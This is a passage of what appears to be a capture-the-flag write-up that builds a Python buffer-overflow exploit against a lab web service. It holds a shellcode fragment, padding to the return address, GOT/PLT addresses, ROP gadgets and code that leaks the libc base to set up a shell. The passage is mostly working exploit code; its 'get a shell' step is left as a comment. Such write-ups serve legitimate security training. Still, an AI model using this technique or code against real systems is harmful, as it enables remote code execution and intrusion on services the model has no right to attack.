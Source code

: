 ```sh
buf += "\xb0\x9e\x3c\xe7\x62\xc7"

```

That will be a shellcode, and let's put together rest of our exploit.

```python

import httplib
import struct
import socket
import telnetlib
import urllib


url = "http://10.10.10.89:1111/"
lurl = "http://localhost:9999/"

def execute_payload(payload):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("10.10.10.89", 1111))
    s.send("GET /{} HTTP/1.1\r\n\r\n".format(urllib.quote_plus(payload)))
    response = s.recv(4096)
    s.close()
    return response

def exploit(payload):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    #s.connect(("localhost", 9999))
    s.connect(("10.10.10.89", 1111))
    s.send("GET /{} HTTP/1.1\r\n\r\n".format(urllib.quote_plus(payload)))
    # get a shell

# padding to RIP
padding = "A" * 568

# got and plt
read_got = 0x603088 # read()@GOT address
write_plt = 0x400c50 # write()@PLT address

# offsets
read_off = 0x0f7250 # read() offset from libc base

# gadgets
poprdiret = 0x4011dd # pop rdi; ret
poprsiret = 0x4011db # pop rsi; pop r15; ret
push_rsp  = 0x023ad1 # push rsp; ret

#### 1 - leak the libc base
buf = ""
buf += padding
buf += struct.pack("<Q", poprdiret)
buf += struct.pack("<Q", 0x4)
buf += struct.pack("<Q", poprsiret)
buf += struct.pack("<Q", read_got)
buf += struct.pack("<Q", 0xF)
buf += struct.pack("<Q", write_plt)

response = execute_payload(buf).split("File not found")[1]           
read_addr = struct.unpack("<Q", response[:8])[0]
print "read() is at", hex(read_addr)

libc_addr = read_addr - read_off
print "libc base is at", hex(libc_addr)
```